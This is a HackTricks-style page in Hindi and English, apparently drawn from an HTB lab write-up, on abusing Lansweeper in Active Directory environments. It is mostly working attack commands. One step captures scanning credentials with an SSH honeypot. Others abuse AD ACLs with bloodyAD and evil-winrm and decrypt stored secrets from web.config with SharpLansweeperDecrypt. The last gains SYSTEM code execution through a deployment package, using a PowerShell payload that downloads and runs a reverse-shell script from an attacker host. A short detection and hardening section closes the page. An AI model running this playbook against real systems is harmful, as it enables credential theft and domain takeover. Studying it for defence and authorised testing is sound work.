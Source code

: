 # Lansweeper Abuse: Credential Harvesting, Secrets Decryption, and Deployment RCE

{{#include ../../banners/hacktricks-training.md}}

Lansweeper एक IT asset discovery और inventory प्लेटफ़ॉर्म है जो आम तौर पर Windows पर डिप्लॉय किया जाता है और Active Directory के साथ इंटीग्रेट होता है। Lansweeper में कॉन्फ़िगर किए गए क्रेडेंशियल्स का उपयोग उसके scanning engines द्वारा SSH, SMB/WMI और WinRM जैसे प्रोटोकॉल्स पर assets को authenticate करने के लिए किया जाता है। Misconfigurations अक्सर निम्न की अनुमति देते हैं:

- किसी Scanning Target को attacker-controlled होस्ट (honeypot) पर रीडायरेक्ट करके credential interception
- Lansweeper-related groups द्वारा एक्सपोज़ किए गए AD ACLs का abuse करके रिमोट एक्सेस प्राप्त करना
- Lansweeper-कॉन्फ़िगर किए गए secrets (connection strings और stored scanning credentials) का on-host decryption
- Deployment फीचर के माध्यम से managed endpoints पर code execution (अक्सर SYSTEM के रूप में चल रहा होता है)

यह पेज एंगेजमेंट के दौरान इन व्यवहारों का दुरुपयोग करने के लिए व्यावहारिक attacker workflows और कमांड्स का सारांश देता है।

## 1) Harvest scanning credentials via honeypot (SSH example)

Idea: अपने होस्ट की ओर इशारा करने वाला एक Scanning Target बनाएं और मौजूदा Scanning Credentials को उससे map करें। जब scan चलेगा, Lansweeper उन क्रेडेंशियल्स से authenticate करने की कोशिश करेगा, और आपका honeypot उन प्रयासों को कैप्चर करेगा।

Steps overview (web UI):
- Scanning → Scanning Targets → Add Scanning Target
- Type: IP Range (or Single IP) = your VPN IP
- Configure SSH port to something reachable (e.g., 2022 if 22 is blocked)
- Disable schedule and plan to trigger manually
- Scanning → Scanning Credentials → ensure Linux/SSH creds exist; map them to the new target (enable all as needed)
- Click “Scan now” on the target
- Run an SSH honeypot and retrieve the attempted username/password

Example with sshesame:
```yaml
# sshesame.conf
server:
listen_address: 10.10.14.79:2022
```

```bash
# Install and run
sudo apt install -y sshesame
sshesame --config sshesame.conf
# Expect client banner similar to RebexSSH and cleartext creds
# authentication for user "svc_inventory_lnx" with password "<password>" accepted
# connection with client version "SSH-2.0-RebexSSH_5.0.x" established
```
captured creds को DC services के खिलाफ मान्य करें:
```bash
# SMB/LDAP/WinRM checks (NetExec)
netexec smb   inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
netexec ldap  inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
netexec winrm inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
```
Notes
- अन्य प्रोटोकॉल्स के लिए भी समान रूप से काम करता है जब आप scanner को अपने listener की ओर coercion कर सकें (SMB/WinRM honeypots, आदि)। SSH अक्सर सबसे सरल होता है।
- कई scanners खुद को अलग client banners के साथ पहचानते हैं (उदा., RebexSSH) और benign commands (uname, whoami, आदि) का प्रयास करेंगे।

## 2) AD ACL abuse: app-admin group में खुद को जोड़कर remote access प्राप्त करें

BloodHound का उपयोग करके compromised account से effective rights को enumerate करें। एक सामान्य खोज यह होती है कि कोई scanner- या app-specific group (उदा., “Lansweeper Discovery”) किसी privileged group (उदा., “Lansweeper Admins”) पर GenericAll रखता है। यदि वह privileged group “Remote Management Users” का member भी है, तो हम खुद को जोड़ते ही WinRM उपलब्ध हो जाता है।

Collection examples:
```bash
# NetExec collection with LDAP
netexec ldap inventory.sweep.vl -u svc_inventory_lnx -p '<password>' --bloodhound -c All --dns-server <DC_IP>

# RustHound-CE collection (zip for BH CE import)
rusthound-ce --domain sweep.vl -u svc_inventory_lnx -p '<password>' -c All --zip
```
BloodyAD (Linux) के साथ समूह पर GenericAll का Exploit:
```bash
# Add our user into the target group
bloodyAD --host inventory.sweep.vl -d sweep.vl -u svc_inventory_lnx -p '<password>' \
add groupMember "Lansweeper Admins" svc_inventory_lnx

# Confirm WinRM access if the group grants it
netexec winrm inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
```
फिर एक interactive shell प्राप्त करें:
```bash
evil-winrm -i inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
```
टिप: Kerberos संचालन समय-संवेदी होते हैं। अगर आपको KRB_AP_ERR_SKEW मिलता है, तो पहले DC के साथ समय समन्वय (sync) करें:
```bash
sudo ntpdate <dc-fqdn-or-ip>   # or rdate -n <dc-ip>
```
## 3) Decrypt Lansweeper-configured secrets on the host

Lansweeper सर्वर पर, ASP.NET साइट आमतौर पर एप्लिकेशन द्वारा उपयोग किए जाने वाले एक encrypted connection string और एक symmetric key को स्टोर करती है। उपयुक्त लोकल एक्सेस होने पर, आप DB connection string को decrypt करके स्टोर किए गए scanning credentials निकाल सकते हैं।

- सामान्य स्थान:
- Web config: `C:\Program Files (x86)\Lansweeper\Website\web.config`
- `<connectionStrings configProtectionProvider="DataProtectionConfigurationProvider">` … `<EncryptedData>…`
- Application key: `C:\Program Files (x86)\Lansweeper\Key\Encryption.txt`

SharpLansweeperDecrypt का उपयोग स्टोर किए गए creds को ऑटोमेटिकली decrypt और dump करने के लिए करें:
```powershell
# From a WinRM session or interactive shell on the Lansweeper host
# PowerShell variant
Upload-File .\LansweeperDecrypt.ps1 C:\ProgramData\LansweeperDecrypt.ps1   # depending on your shell
powershell -ExecutionPolicy Bypass -File C:\ProgramData\LansweeperDecrypt.ps1
# Tool will:
#  - Decrypt connectionStrings from web.config
#  - Connect to Lansweeper DB
#  - Decrypt stored scanning credentials and print them in cleartext
```
अपेक्षित आउटपुट में DB connection details और plaintext scanning credentials जैसे पूरे estate में उपयोग किए जाने वाले Windows और Linux खाते शामिल होते हैं। ये अक्सर domain hosts पर elevated local rights रखते हैं:
```text
Inventory Windows  SWEEP\svc_inventory_win  <StrongPassword!>
Inventory Linux    svc_inventory_lnx        <StrongPassword!>
```
विशेषाधिकार प्राप्त पहुँच के लिए पुनर्प्राप्त Windows scanning creds का उपयोग करें:
```bash
netexec winrm inventory.sweep.vl -u svc_inventory_win -p '<StrongPassword!>'
# Typically local admin on the Lansweeper-managed host; often Administrators on DCs/servers
```
## 4) Lansweeper Deployment → SYSTEM RCE

“Lansweeper Admins” के सदस्य के रूप में, वेब UI में Deployment और Configuration उपलब्ध हैं। Deployment → Deployment packages के अंतर्गत, आप ऐसे packages बना सकते हैं जो लक्षित assets पर arbitrary commands चलाते हैं। निष्पादन Lansweeper service द्वारा उच्च privileges के साथ किया जाता है, जिससे चुने हुए host पर NT AUTHORITY\SYSTEM के रूप में code execution मिलती है।

High-level steps:
- एक नया Deployment package बनाएं जो PowerShell या cmd one-liner चलाए (reverse shell, add-user, etc.).
- इच्छित asset (e.g., the DC/host where Lansweeper runs) को लक्ष्य करें और Deploy/Run now पर क्लिक करें।
- अपने shell को SYSTEM के रूप में पकड़ें।

उदाहरण payloads (PowerShell):
```powershell
# Simple test
powershell -nop -w hidden -c "whoami > C:\Windows\Temp\ls_whoami.txt"

# Reverse shell example (adapt to your listener)
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://<attacker>/rs.ps1')"
```
OPSEC
- डिप्लॉयमेंट क्रियाएँ शोर करती हैं और Lansweeper तथा Windows event logs में लॉग छोड़ती हैं। सावधानी से उपयोग करें।

## डिटेक्शन और हार्डनिंग

- अनाम SMB enumerations को सीमित या हटा दें। RID cycling और Lansweeper shares तक असामान्य पहुँच के लिए निगरानी रखें।
- Egress controls: scanner hosts से outbound SSH/SMB/WinRM को ब्लॉक या कड़ाई से सीमित करें। non-standard ports (e.g., 2022) और Rebex जैसे असामान्य client banners पर अलर्ट रखें।
- Protect `Website\\web.config` and `Key\\Encryption.txt`. secrets को vault में बाहरीकरण करें और एक्सपोज़ होने पर रोटेट करें। जहाँ संभव हो, न्यूनतम privileges वाले service accounts और gMSA पर विचार करें।
- AD monitoring: Lansweeper-संबंधित groups (उदा., “Lansweeper Admins”, “Remote Management Users”) में बदलावों पर अलर्ट करें और privileged groups पर GenericAll/Write सदस्यता देने वाले ACL परिवर्तनों पर निगरानी रखें।
- Deployment package के निर्माण/परिवर्तन/निष्पादन का ऑडिट करें; उन पैकेजों पर अलर्ट करें जो cmd.exe/powershell.exe लॉन्च करते हैं या अनपेक्षित outbound कनेक्शनों को आरंभ करते हैं।

## संबंधित विषय
- SMB/LSA/SAMR enumeration and RID cycling
- Kerberos password spraying and clock skew considerations
- BloodHound path analysis of application-admin groups
- WinRM usage and lateral movement

## References
- [HTB: Sweep — Abusing Lansweeper Scanning, AD ACLs, and Secrets to Own a DC (0xdf)](https://0xdf.gitlab.io/2025/08/14/htb-sweep.html)
- [sshesame (SSH honeypot)](https://github.com/jaksi/sshesame)
- [SharpLansweeperDecrypt](https://github.com/Yeeb1/SharpLansweeperDecrypt)
- [BloodyAD](https://github.com/CravateRouge/bloodyAD)
- [BloodHound CE](https://github.com/SpecterOps/BloodHound)

{{#include ../../banners/hacktricks-training.md}}
